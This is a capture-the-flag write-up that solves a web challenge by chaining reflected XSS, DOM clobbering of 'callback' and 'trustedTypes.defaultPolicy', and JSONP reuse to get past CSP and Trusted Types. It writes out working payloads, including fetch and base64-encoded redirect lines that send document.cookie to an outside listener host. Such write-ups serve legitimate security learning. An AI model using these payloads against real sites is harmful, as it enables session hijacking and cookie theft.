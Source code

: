 # Simple Blog
---
>Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
>[Challenge](http://web.ctf.zer0pts.com:8003/)
>
>[simple\_blog\_1802a68a066b0286632ecb1713377283.tar.gz](https://nyc3.digitaloceanspaces.com/zer0pts-ctf-2021/da11dbf4-c0f1-4663-9726-6d612529ae22/simple_blog_1802a68a066b0286632ecb1713377283.tar.gz)
>Author: st98 

This was a cross-site scripting challenge involving a CSP bypass via DOM clobbering and JSONP.

---
# Initial XSS
After initial viewing of the website, the only functionality appears to be toggling the theme between light and darkmode. This can be supplied via GET parameter `theme`. The parameter is inserted into the html without any sanitization.

If the theme parameter is set to `dark.min.css"><u>test123</u>`, we can achieve XSS.
![](https://i.imgur.com/5XWScD7.png)

However, due to the Content Security Policy, exploiting this vulnerability will not be trivial.

`Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-Y0npz+Y+M1cF2SWvRCo60NKRl60=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default"`

We can not access any outside resources, unless our script has the correct nonce, which changes every request, making it near impossible to guess.

---
# Reading the source
The `index.php` page uses an internal api to render its articles inside of a script tag. In the CSP, `script-src` is also set to `strict-dynamic`, meaning that all scripts loaded by this script will be run.
```js
<script nonce="<?= $nonce ?>">
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };

    // render articles
    const render = articles => {
      const main = document.getElementById('main');
      const loading = document.getElementById('loading');

      articles.sort((a, b) => a.id - b.id);
      for (const article of articles) {
        const elm = document.createElement('article');
        elm.classList.add('blog-post');

        const title = document.createElement('h2');
        title.innerHTML = article.title;
        elm.appendChild(title);

        const content = document.createElement('p');
        content.innerHTML = article.content;
        elm.appendChild(content);

        main.appendChild(elm);
      }

      loading.remove();
    };

    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
```

If we access `/api.php`, it will return a js function called `render`
![](https://i.imgur.com/zaQtFBk.png)

Because this is JSONP, we can create our own function name, by accessing `/api.php?callback=<name>`

JSONP is defined as:
```js
const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };
```

And called as:
```js
jsonp('/api.php', window.callback);
```

If `window.callback` exists, jsonp() will access `/api.php?callback=<name>` with \<name\> being whatever the value of `window.callback` is. If `window.callback` does not exist, it will just access `/api.php`, giving the default function name of render().

## Bypass #1

We can use DOM clobbering to create `window.callback`. By injecting `<a href="a:alert();//" id=callback></a>` into the html, `window.callback` becomes `a:alert();//` and the script should call jsonp('/api.php', 'alert();//'), which will run the script returned by the api, and should execute an alert().

However, we are instead met with this error in the console.

![](https://i.imgur.com/RAvsXug.png)

This is because of the following js:
```js
    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }
```

We can bypass this with more DOM clobbering. My understanding of this step is not perfect, but by injecting `<form id=trustedTypes><input name=defaultPolicy></input></form>` into the HTML, we now have `trustedTypes.defaultPolicy`, allowing us to bypass the trusted types check on firefox.

With `"><a href="a:alert();" id=callback></a><form id=trustedTypes><input name=defaultPolicy></input></form>`, we can trigger an alert.
![](https://i.imgur.com/tYH0fEs.png)

However, attempting to change the value of callback to `a:fetch('http://downgrade.ml:4444/x?flag=' + document.cookie)"`, we are met with another error.

![](https://i.imgur.com/5NKfIMu.png)

## Bypass #2

Looking at the source of `api.php`, we see:
```php
if (strlen($callback) > 20) {
  die('throw new Error("callback name is too long")');
}
```

We are limited to just 20 characters. Instead of trying to write the worlds smallest XSS exploit, we can instead look towards code reuse. 

The api has a character limit, but the json() function does not. 

The jsonp() function will create and append a script source into the document, with the source being whatever argument is supplied. Through even more DOM clobbering, we can create a script element with the source as our own server, allowing for exfiltration of the admin cookie.

By creating an HTML element `<input id=X value="http://downgrade.ml:4444/x"></input>`, and changing `window.callback` to `<a href="a:jsonp(X.value);" id=callback></a>`, the script will call `jsonp("http://downgrade.ml:4444/x")`. 

By starting a listener and sending the payload to the admin bot, we get a connection.
![](https://i.imgur.com/DnnAppr.png)

## Exfiltration

By changing the value of `X` to `data:text/plain;base64,bG9jYXRpb249Imh0dHA6Ly9kb3duZ3JhZGUubWw6NDQ0NC94P2ZsYWc9IiArIGRvY3VtZW50LmNvb2tpZQo=`, we can change the `document.location` to my own server. The base64 decodes to `location="http://downgrade.ml:4444/x?flag=" + document.cookie`, meaning that the user will be redirected to my server, with a GET parameter of their cookies.

After sending the final payload `theme=dark.min.css"><a href="a:jsonp(X.value);" id=callback></a><form id=trustedTypes><input name=defaultPolicy></input></form><input id=X value="data:text/plain;base64,bG9jYXRpb249Imh0dHA6Ly9kb3duZ3JhZGUubWw6NDQ0NC94P2ZsYWc9IiArIGRvY3VtZW50LmNvb2tpZQo="></input>`, we are met with: 
![](https://i.imgur.com/EVJP5Kg.png)
